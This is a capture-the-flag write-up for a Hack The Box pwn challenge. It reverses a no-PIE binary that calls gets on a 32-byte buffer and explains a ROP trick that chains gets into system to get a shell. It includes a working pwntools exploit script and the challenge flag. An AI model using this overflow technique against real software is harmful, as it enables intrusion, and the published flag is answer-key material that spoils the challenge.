


* Difficulty : Medium
* Description : Navigate the shadows in a dimly lit room, silently evading detection as you strategize to outsmart your foes. Employ clever distractions to divert their attention, paving the way for your daring escape!  
* Challenge Files : [](pwn_sound_of_silence.zip)

## Initial Recon 

As you run the binary, it clears the shell and asks for some input, thats it 
```
~The Sound of Silence is mesmerising~

>> some input 
``` 
And these are the protections of the binary : 
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
``` 
* No `canary` and no `PIE`, definitely some overflow involved
## Reversing 

Here is the decompiled `main` function by IDA :
```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char v4[32]; // [rsp+0h] [rbp-20h] BYREF

  system("clear && echo -n '~The Sound of Silence is mesmerising~\n\n>> '");
  return gets(v4, argv);
}
```

* The program is simple, it clears the terminal, prints echos some statement and call `gets` on a buffer of 32 bytes 

## Exploit 

* Since `PIE` is disabled we can overflow and ROP to call any of the function (`gets` or `system`)
* In one of the past CTFs I used this trick of calling `gets` after ROP and passing the input to the next function in the ROP chain and this was supposed to be done 
* I'll go in more detail about this trick 

* As you return into `gets` function after buffer overflow this is the current state of the registers 

  


* If you look closely the value in `rdi` register points to a writable section of libc, so if we execute `gets` in this state the input will be stored on that address in libc 
* After the `gets` function is completed the value in `rdi` remains the same and `rip` will jump to next value on the stack 
* So if we chain the input like 

```
<junk bytes> + <address of gets> + <address of system>
```

* We will be able to call `system` function on our input 
* If you know this trick, you can solve this challenge without even debugging 

* This is how to state of the program looks after taking the input from `gets` 

  

Here is the exploit script : 
```python
from pwn import * 

elf = context.binary = ELF('./sound_of_silence')

p = elf.process()

p.sendline(cyclic(40) + p64(elf.sym['gets'])  + p64(elf.sym['system']))

p.interactive()

#$ /bin0sh
```

---  

#### Flag : `HTB{n0_n33d_4_l34k5_wh3n_u_h4v3_5y5t3m}`


